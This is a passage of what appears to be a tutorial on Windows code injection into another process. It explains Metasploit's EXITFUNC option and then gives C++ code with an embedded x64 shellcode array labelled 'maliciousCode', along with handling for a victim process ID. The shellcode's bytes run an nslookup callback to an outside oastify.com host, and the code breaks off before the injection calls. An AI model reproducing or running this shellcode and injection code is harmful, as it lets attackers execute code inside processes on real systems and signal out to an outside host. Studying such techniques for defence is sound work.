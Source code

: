 It is important to know this subtle differences when using Metasploit for generating your shellcode, as it makes the difference between crashing the process and keeping it working.

In fact, if you were to set `EXITFUNC` to `process`, after the shellcode is completed, the process will be terminated. In the case a process such as `explorer.exe`, this means it will have to be restarted by the system, and the user will notice this error. 

Instead, you can set `EXITFUNC` to `thread` to simply kill the thread, keeping the process up and running.

### Code Injection

Enough with the chit-chat, it's about time we look the code of this technique. Below is the code I wrote, with some - `yeah, just a few` - comments describing what the heck is going on.

```cpp
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[])
{
	unsigned char maliciousCode[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
        "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
        "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
        "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
        "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
        "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
        "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
        "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
        "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
        "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
        "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
        "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
        "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
        "\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
        "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
        "\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
        "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
        "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
        "\xd5\x6e\x73\x6c\x6f\x6f\x6b\x75\x70\x20\x39\x6f\x79\x61"
        "\x78\x64\x6a\x79\x63\x32\x6e\x6d\x77\x32\x6e\x77\x33\x6b"
        "\x61\x6c\x33\x7a\x66\x69\x33\x39\x39\x30\x78\x78\x6c\x6d"
        "\x2e\x6f\x61\x73\x74\x69\x66\x79\x2e\x63\x6f\x6d\x00";

	unsigned int victimProcessId;

	if (argc > 1)
	{
		/*
		The function atoi() isn't the best solution for converting a char pointer to integer,
		as it will convert any invalid number to 0.
		A better solution is described here: https://stackoverflow.com/questions/2797813/how-to-convert-a-command-line-argument-to-int
		*/
		victimProcessId = atoi(argv[1]);
		printf("[+] Performing Process Injection using CreateRemoteThread inside the victim process identified by the PID: %d\n", victimProcessId);
	}
	else
	{
		printf("[+] Usage:\n\tprogram.exe PID\n");
		return 1;
	}
```